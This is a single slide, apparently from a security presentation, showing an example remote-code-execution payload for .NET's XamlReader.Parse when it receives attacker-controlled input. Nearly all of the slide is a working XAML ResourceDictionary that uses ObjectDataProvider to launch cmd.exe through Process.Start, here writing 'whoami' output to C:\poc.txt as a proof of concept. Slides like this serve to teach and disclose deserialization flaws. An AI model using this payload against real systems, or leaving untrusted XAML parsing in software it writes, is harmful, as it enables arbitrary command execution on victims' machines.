

# Example RCE Payload – FigureParseConversion
System.Windows.Markup.XamlReader.Parse() is called with an attacker-controlled string
<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system" xmlns:System="clr-namespace:System;assembly=mscorlib" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml">
   <ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
      <ObjectDataProvider.MethodParameters>
         <System:String>cmd.exe</System:String>
         <System:String>/c whoami &gt; C:\\poc.txt</System:String>
      </ObjectDataProvider.MethodParameters>
   </ObjectDataProvider>
</ResourceDictionary>